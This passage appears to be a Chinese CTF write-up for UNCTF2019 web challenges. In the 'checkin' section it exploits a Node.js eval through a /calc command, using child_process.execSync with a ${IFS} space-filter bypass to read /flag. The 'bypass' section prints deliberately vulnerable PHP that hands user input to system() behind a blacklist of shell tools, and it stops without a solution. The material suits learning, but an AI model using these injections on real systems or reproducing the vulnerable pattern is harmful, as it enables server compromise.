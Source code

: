 # 题解 [web]

## checkin

查看源码，发现源码中的**/calc**

![](/home/cookie/Pictures/blogs/UNCTF2019/4.png)

尝试一下，这实际是一个计算器，后台逻辑估计是会将字符串输入到后台并执行。比如执行

```php
/calc 1+1
```

后台回显 2，所以这里存在命令执行漏洞。

参考文章：[Node.js代码审计之eval远程命令执行漏洞](<http://qnkcdz0.xyz/2019/06/24/Node-js%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%E4%B9%8Beval%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/#%E5%8F%82%E8%80%83>)

​                   [child_process.execSync(command[, options])](<http://nodejs.cn/api/child_process.html#child_process_child_process_execsync_command_options>)

我们调用子进程进行命令执行

```
/calc require('child_process').execSync('ls').toString()
```

空格被过滤，使用${IFS}绕过

```php
/calc require('child_process').execSync('cat${IFS}/flag').toString()
```

![](/home/cookie/Pictures/blogs/UNCTF2019/5.png)











## bypass

```php
<?php
    highlight_file(__FILE__);
    $a = $_GET['a'];
    $b = $_GET['b'];
 // try bypass it
    if (preg_match("/\'|\"|,|;|\\|\`|\*|\n|\t|\xA0|\r|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $a))
        $a = "";
        $a ='"' . $a . '"';
    if (preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $b))
        $b = "";
        $b = '"' . $b . '"';
     $cmd = "file $a $b";
      str_replace(" ","","$cmd"); 
     system($cmd);
?>
```
